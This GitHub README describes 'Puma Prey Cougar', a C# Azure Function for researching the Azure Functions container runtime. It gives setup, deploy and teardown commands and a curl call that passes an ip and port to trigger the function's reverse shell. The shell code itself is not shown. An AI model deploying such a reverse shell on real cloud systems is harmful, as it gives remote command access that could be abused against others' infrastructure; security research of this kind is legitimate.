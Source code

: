 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Install Azure Functions Core Tools

Details here: [https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local)

## Creating The Function

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```

## Running Locally

```bash
func start --build
```

## Testing Locally

```bash
curl --request POST http://localhost:7071/api/cougar --data '{"name":"Puma Rocks"}'
```

## Infrastructure

Requires the Function, App Service Plan, App Insights, and Storage Account to be created. TODO: TF all the things.

```bash
az ad sp create-for-rbac -n "PumaPreyCougar"
```

## Deploying the Function

```bash
func azure functionapp publish pumapreycougar
```

Manually configure the function to run under the SP created above. TODO: TF all the things.

## Testing in Azure

Using the Invoke URL returned from the publish command above:

```bash
curl "<INSERT INVOKE URL>&ip=[ip-address]&port=[port]"
```

## Destroying The Stack

```bash
az group delete --name pumaprey-cougar
```